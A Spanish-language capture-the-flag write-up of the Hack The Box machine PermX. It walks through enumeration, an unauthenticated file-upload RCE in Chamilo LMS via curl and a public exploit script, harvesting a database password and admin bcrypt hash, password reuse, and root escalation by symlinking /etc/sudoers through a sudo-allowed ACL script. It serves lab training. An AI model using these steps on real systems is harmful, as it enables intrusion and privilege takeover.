# PermX



- Launchpad: Jammy
- Whatweb
http://permx.htb [200 OK] Apache[2.4.52], Bootstrap, Country[RESERVED][ZZ], Email[permx@htb.com], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.13.186], JQuery[3.4.1], Script, Title[eLEARNING]
Apache 2.4.52

- Gobuster
```bash
gobuster dir -u http://permx.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,js,txt -t 200
```



- Subdominio
```bash
gobuster vhost -u http://permx.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt --append-domain -t 200 -r
```



- En lms.permx.htb se usa un framework llamado **chamilo**



- Whatweb subdominio
http://lms.permx.htb [200 OK] Apache[2.4.52], Bootstrap, Chamilo[1], Cookies[GotoCourse,ch_sid], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], HttpOnly[GotoCourse,ch_sid], IP[10.129.13.186], JQuery, MetaGenerator[Chamilo 1], Modernizr, PasswordField[password], PoweredBy[Chamilo], Script, Title[PermX - LMS - Portal], X-Powered-By[Chamilo 1], X-UA-Compatible[IE=edge]
Chamilo 1

- Gobuster subdominio



- /robots.txt



- /app
Muchos archivos -> vemos *config*
No vemos nada interesante

- /plugin
Nada

- /vendor
Lista larga de carpetas sin mucha pinta

- /whoisonline.php



- /whoisonlinesession.php



- Buscamos exploits para chamilo
Encontramos en searchsploit *Chamilo LMS 1.11.24 - Remote Code Execution (RCE)*
```bash
python3 52083.py http://lms.permx.htb id
```



- Nos enviamos una bash base64encodeando el archivo de onliner



www-data

Podríamos haber subido el archivo también con
```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
```

Siendo *rce.php*


Ejecutaremos el RCE
```bash
curl -F 'bigUploadFile=@rce.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/rce.php?cmd=id'
```

## Escalada

```bash
id
```

```bash
sudo -l
```

password
```bash
cat /etc/passwd
```

*mtz* y *root*
```bash
find / -perm -4000 2>/dev/null
```

Nada
```bash
getcap / -r 2>/dev/null
```

Nada

- Parece que hay un mysql, intentaremos buscar credenciales

- En */var/www/chamilo/app/config/auth.conf.php*
Encontramos posibles credenciales parece que para acceder a chamilo, pero no consigo entrar de primeras ni en *index.html* ni en *whoisonlinesession.php*



- En el directorio de config hacemos una búsqueda recursiva de todos los archivos para buscar passwords
```bash
grep -RiI password .
```

Vemos varias posibles contraseñas



db_password -> 03F6lY3uXAP2bkW8
Sonata -> username:pASS -> puerto 27017

- Hacemos una búsqueda de esa contraseña para averiguar qué usuario tiene y a qué db se refiere
```bash
cat configuration.php | grep password -C 5
```



chamilo:03F6lY3uXAP2bkW8

```bash
mysql -u chamilo -p
```

03F6lY3uXAP2bkW8
MariaDB

- db: chamilo -> tb: user ->
```
describe user;
```

-> Muestra las columnas
```
select id,username,email,firstname,lastname,enabled password from user;
```



admin:$2y$04$1Ddsofn9mOaa9cbPzk0m6euWcainR.ZT2ts96vRCKrN7CGCmmq4ra

-
```bash
hashid -m hash
```



bcrypt



Intentamos crackear la password con
```bash
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
```

- Probamos a reutilizar contraseñas mientras
```bash
su mtz
```

03F6lY3uXAP2bkW8
mtz

- En /opt encontramos un archivo que se encarga de asignar permisos parece a archivos



- Buscando por internet vemos que el ACL sirve para darle permisos de rwx a un usuario externo al grupo o propietario de un archivo
Ejemplo de uso



Es justo lo que hace el script

- Podemos ejecutar acl.sh como sudo
```bash
sudo -l
```



- El script al que le cambiemos los permisos deberá estar en /home/mtz, por lo que se nos ocurre hacer un linkeo de algún archivo sensible hacia un archivo falso de /home/mtz
```bash
ln -s /etc/sudoers /home/mtz/fake
```

(sin crear fake)
-s: symbolic link
Ahora mismo no tenemos permisos para ver sudoers pero si hacemos
```bash
sudo /opt/acl.sh mtz rwx /home/mtz/fake
```

Podremos ver y editar el contenido:



- Nos damos permisos para ejecutar cualquier binario como sudo



```bash
sudo su
```



root
